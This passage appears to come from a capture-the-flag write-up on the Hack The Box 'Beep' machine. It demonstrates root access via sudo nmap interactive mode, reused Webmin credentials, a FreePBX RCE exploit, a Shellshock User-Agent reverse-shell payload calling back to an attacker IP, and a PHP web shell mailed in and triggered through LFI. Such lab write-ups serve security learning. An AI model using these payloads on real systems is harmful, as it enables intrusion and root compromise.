    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 
```
Nmap is an easy win here, and [GTFObins](https://gtfobins.github.io/#) lists the commands that we can use to spawn an elevated shell.

```
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

# Exploitation II
In this path, we will again use the credentials obtained in the first exploitation method.

## **Foothold on the Webmin portal**
For the webmin portal, the credentials for admin do not work. However, the Webmin application usually mirrors the system accounts. So if we use the username root instead of admin, the same password allows successful authentication and the portal is opened to us for exploitation.



## **Spawning a shell**
The Webmin portal includes a command shell service that allows access to the underlying environment. Since we logged in with root credentials, the commands are also executed with root privilege.


From here, we have full access to the system and spawning a shell becomes trivial.

Having gained access to the system in a couple of different ways, I read up on 0xdf's writeup ([here](https://0xdf.gitlab.io/2021/02/23/htb-beep.html)) and tried to follow 3 other vectors.

# Exploitation III
In the vulnerabilities section, the search for elastix and freepbx vulnerabilities using searchsploit threw up an RCE exploit ([callmenum](https://www.exploit-db.com/exploits/18650)). I was not able to get the script to work because of SSL mismatch, but using the corrective steps outlined by 0xdf we are able to get a shell.

1. We need to find an open extension for the FreePBX application. During our enumeration of the recordings application, we had seen that there were voicemails to the extension 233. The same is confirmed by running the below command.
```
$ svwar -m INVITE -e1-999 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```
2. Next, we need to fix the SSL errors by adding a context to the script to ignore the certificate errors and modifying the SSL connection configuration on our local machine to allow the SSL versions used on the target machine.
```
$ sslscan 10.10.10.7
Version: 2.0.10-static
OpenSSL 1.1.1l-dev  xx XXX xxxx

Connected to 10.10.10.7

Testing SSL server 10.10.10.7 on port 443 using SNI name 10.10.10.7

  SSL/TLS Protocols:
SSLv2     disabled
SSLv3     enabled
TLSv1.0   enabled
TLSv1.1   disabled
TLSv1.2   disabled
TLSv1.3   disabled
```

The SSL config file is modified by setting the MinProtocol and CipherString values to None. (**Note**: TLSv1.0 and SSL versions should not be allowed, so revert changes once you are done.)

```
[system_default_sect]
#MinProtocol = TLSv1.2
MinProtocol = None
#CipherString = DEFAULT@SECLEVEL=2
CipherString = None
```
Running the exploit now with a netcat listener gives a shell with asterisk user privilege. Privilege escalation can be done as in [Exploitation I](#privilege-escalation).

# Exploitation IV
This exploitation vector uses the Shellschock vulnerability. Now, I did not know of this exploit before practicing this machine. But basically, the vulnerability allows arbitrary command execution on the target system. (Read up on it [here](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf) and [here](https://blog.cloudflare.com/inside-shellshock/).)

The [Exploitation II](#exploitation-ii) vector was possible because we had the credentials for the webmin portal. Without the credentials, Shellshock makes it possible to gain access. 

Initially, I tried the exploitDB script but it does not work and gets stuck. Manually, editing the User-Agent header in the request executes the vulnerability and we get a shell as root.

```
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.16.173/4444 0>&1
```
```
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.7] 50295
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]# whoami
root
```
# Exploitation V
Final exploitation vector, uses the SMTP server to deliver a payload and then accesses it using the LFI vulnerability that we used in [Exploitation I](#exploitation-i).
Initially, I tried to deliver the payload to the user fanis because that was the only account discovered during the enumeration, however I was unable to access the payload. Later, delivering the payload to the asterisk user worked and RCE was possible.

```
$ swaks --to asterisk@localhost --from test@test.com --header "Subject: test shell" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
=== Trying 10.10.10.7:25...
=== Connected to 10.10.10.7.
<-  220 beep.localdomain ESMTP Postfix
 -> EHLO crypto-pc
<-  250-beep.localdomain
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250 DSN
 -> MAIL FROM:<test@test.com>
<-  250 2.1.0 Ok
 -> RCPT TO:<asterisk@localhost>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 11 Jul 2021 21:51:23 -0400
 -> To: asterisk@localhost
 -> From: test@test.com
 -> Subject: test shell
 -> Message-Id: <20210711215123.010764@crypto-pc>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> check out this code: <?php system($_REQUEST["cmd"]); ?>
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 0C0ACD9300
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```
Navigating to the LFI, with request parameter "&cmd=id", enables the exploit.



# Post-Exploitation
## **User Flag**
```
# cat user.txt
6d****************************f6
```
## **Root Flag**
```
# cat root.txt
56****************************6b
```

# Notes
1. Webmin: Webmin is used to administer the machine, so access to the service might mirror the user accounts on the system as well.
2. If an exploit does not work, try and see if there are different inputs or modifications that can be done to make it work.